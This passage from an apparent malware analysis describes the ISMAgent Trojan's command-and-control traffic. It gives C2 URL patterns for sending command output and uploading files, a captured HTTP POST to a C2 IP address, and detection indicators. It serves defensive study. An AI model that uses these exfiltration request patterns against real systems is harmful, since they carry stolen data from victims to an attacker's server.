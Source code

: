 

http://[IP of C2 domain]/response/[base64 encoded hostname\username]/[GUID provided by C2]




1

http://[IP of C2 domain]/response/[base64 encoded hostname\username]/[GUID provided by C2]





The HTTP POST request contains an anomalous boundary value of “myboundary” and hardcoded filename value of “a.a”, as seen below, which may be used to generate detection signatures for this behavior:





POST /response/[redacted]/2983b983-0acd-42db-9d86-0b096af5f369 HTTP/1.1
 Host: 142.54.179.90
 Content-Type: multipart/form-data; boundary=myboundary
 User-Agent: Firefox
 Content-Length: 3868
 Cache-Control: no-cache
 
 --myboundary
 Content-Type: application/octet-stream;charset=UTF-8
 Content-Disposition: form-data; name="file"; filename="a.a"
 
 
 [output of command prompt]




12345678910111213

POST /response/[redacted]/2983b983-0acd-42db-9d86-0b096af5f369 HTTP/1.1 Host: 142.54.179.90 Content-Type: multipart/form-data; boundary=myboundary User-Agent: Firefox Content-Length: 3868 Cache-Control: no-cache  --myboundary Content-Type: application/octet-stream;charset=UTF-8 Content-Disposition: form-data; name="file"; filename="a.a"   [output of command prompt]





While we did not observe the C2 server attempting to run additional commands via ISMAgent, we were able to analyze the Trojan itself to determine the functionality of its available commands. If the command string contains a URL to download a file to the system, the Trojan will simply use the URLDownloadToFileA function to download and save the file to the target system in the %TEMP% folder. If the C2 server provides a path to a file it wishes to upload from the system, the Trojan will open the file, read its contents, and then upload its contents via an HTTP POST to the following URL:





http://[IP of C2 domain]/upload/[base64 encoded hostname\username]/[GUID provided by C2]




1

http://[IP of C2 domain]/upload/[base64 encoded hostname\username]/[GUID provided by C2]
